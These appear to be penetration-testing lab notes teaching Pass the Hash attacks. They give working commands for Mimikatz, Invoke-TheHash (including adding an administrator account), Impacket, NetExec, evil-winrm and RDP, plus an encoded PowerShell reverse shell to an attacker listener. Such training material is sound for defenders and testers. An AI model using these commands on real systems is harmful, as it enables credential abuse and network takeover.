


A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. The attacker doesn't need to decrypt the hash to obtain a plaintext password. PtH attacks exploit the authentication protocol, as the password hash remains static for every session until the password is changed.

Hashes can be obtained in several ways, including:

* Dumping the local SAM database from a compromised host.
* Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
* Pulling the hashes from memory (lsass.exe).

### Pass the Hash with Mimikatz (Windows)

The first tool we will use to perform a Pass the Hash attack is [Mimikatz](https://github.com/gentilkiwi). Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

* `/user` - The user name we want to impersonate.
* `/rc4` or `/NTLM` - NTLM hash of the user's password.
* `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
* `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

#### Pass the Hash from Windows Using Mimikatz

```bash
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit

miminkatz(commandline) # sekurlsa::logonpasswords
```

### Pass the Hash with PowerShell Invoke-TheHash (Windows)

Another tool we can use to perform Pass the Hash attacks on Windows is [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash). This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB.

When using `Invoke-TheHash`, we have two options: SMB or WMI command execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:

* `Target` - Hostname or IP address of the target.
* `Username` - Username to use for authentication.
* `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
* `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
* `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

#### Invoke-TheHash with SMB

```bash
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

##### Netcat listener

```bash
PS C:\tools> .\nc.exe -lvnp 8001
```

To create a simple reverse shell using PowerShell, we can visit [revshells.com](https://www.revshells.com/), set our IP `172.16.1.5` and port `8001`, and select the option `PowerShell #3 (Base64)`, as shown in the following image.



#### Invoke-TheHash with WMI

```bash
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMwAzACIALAA4ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
```

### Pass the Hash with Impacket (Linux)

[Impacket](https://github.com/SecureAuthCorp/impacket) has several tools we can use for different operations such as `Command Execution` and `Credential Dumping`, `Enumeration`, etc. For this example, we will perform command execution on the target machine using PsExec.

#### Pass the Hash with Impacket PsExec

```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

* [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
* [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
* [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

### Pass the Hash with NetExec (Linux)

[NetExec](https://github.com/Pennyw0rth/NetExec) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. We can use NetExec to try to authenticate to some or all hosts in a network looking for one host where we can authenticate successfully as a local admin.

#### Pass the Hash with NetExec

```bash
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

#### NetExec - Command Execution

```bash
netexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```

### Pass the Hash with evil-winrm (Linux)

[Evil-WinRM](https://github.com/Hackplayers/evil-winrm) is another tool we can use to authenticate using the Pass the Hash attack with PowerShell remoting. If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.

#### Pass the Hash with evil-winrm

```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```

### Pass the Hash with RDP (Linux)

#### Enable Restricted Admin Mode to allow PtH

```bash
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```


#### Pass the Hash using RDP

```bash
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```
